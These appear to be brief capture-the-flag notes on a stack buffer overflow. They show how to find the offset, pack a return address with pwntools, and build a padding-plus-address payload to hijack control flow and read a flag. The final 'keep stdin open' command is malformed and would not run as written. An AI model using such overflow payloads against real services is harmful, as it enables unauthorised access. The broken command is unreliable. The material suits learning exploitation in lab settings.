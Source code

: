 ### N o T e S

firstly, find out the offset before which the program will not print flag. Then concatenate it with the address we want.

For example, in a question if offset is 20 and we need to return the address 0xcaf3baee, then 

```bash
>>> import pwn
>>> pwn.p32(0xcaf3baee)
b'\xee\xba\xf3\xca'

# --> Little endian notation.
```

Payload --> python -c 'print("A"*20+"\xee\xba\xf3\xca")' > payload

```py
print("A"*20+"\xee\xba\xf3\xca")
AAAAAAAAAAAAAAAAAAAAîºóÊ
```

When we run this payload with the remote server, we can get access to the local files.

#### In case the stdout closes using payload try this : 

```py
python -c 'print("A"*20+"\xee\xba\xf3\xca" ; cat)'
```

---

